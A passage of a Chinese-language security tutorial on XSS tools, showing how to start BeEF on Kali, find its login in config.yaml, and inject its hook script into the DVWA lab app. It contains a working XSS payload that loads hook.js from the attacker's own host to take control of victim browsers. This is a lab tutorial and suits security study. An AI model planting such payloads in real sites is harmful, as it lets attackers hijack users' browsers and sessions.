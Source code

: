 # 5.XSS工具

## 5.1.xss平台

上面已经介绍过，这里就不赘述了

[反射型XSS(按ctrl键点我跳转)](https://xz.aliyun.com/t/9424#1)

## 5.2.BeEF

这个工具在kali上有集成。

该使用工具在freebuf上有一个系列文章，写的非常好，这里分享一下：[BeEF](https://www.freebuf.com/sectool/178512.html)

我这里就简单介绍下如何使用吧。

先打开kali，这里打开beef的方式有两种，第一种是以下这种：

在这里搜索beef，点击其中的`beef xss framework`或者`beef start`任选一个

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212355-d5b8d46c-9936-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212355-d5b8d46c-9936-1.jpg)

第二种是直接命令行中敲`beef-xss`。

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212414-e107d980-9936-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212414-e107d980-9936-1.jpg)

然后都是在命令行上，等待上面的秒数从5到1后，会跳出一个页面让我们登录

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212431-eb0c3d90-9936-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212431-eb0c3d90-9936-1.jpg)

这里如果不知道用户名和密码的话，可以在命令行敲这个命令：`vim /etc/beef-xss/config.yaml`，在里面可以进行查看。如果想修改的话也可以自行修改，修改了密码则要重新启动BeEF进行登录(如果登录不了，则kali重启再重新启动程序)

登录成功，里面是长这个样子

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212447-f4b0a746-9936-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212447-f4b0a746-9936-1.jpg)

这时候啥都干不了，是因为你有一步很重要的操作没做。这里需要把图中红框中的payload复制粘贴到你的目标xss的位置，然后将其中的`<IP>`改成你这台kali的IP地址，最终payload为：`<script src="http://X.X.X.X:3000/hook.js"></script>`

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212506-ffdb69d0-9936-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212506-ffdb69d0-9936-1.jpg)

这里我用dvwa来模拟场景。将payload插入其中，点击submit

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212527-0c4d69ac-9937-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212527-0c4d69ac-9937-1.jpg)

这时候再回到BeEF中查看，会发现online browers中多了点东西，这时候就可以开始操作了

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409212553-1b9eee44-9937-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409212553-1b9eee44-9937-1.jpg)

我这里介绍下这个主页面：
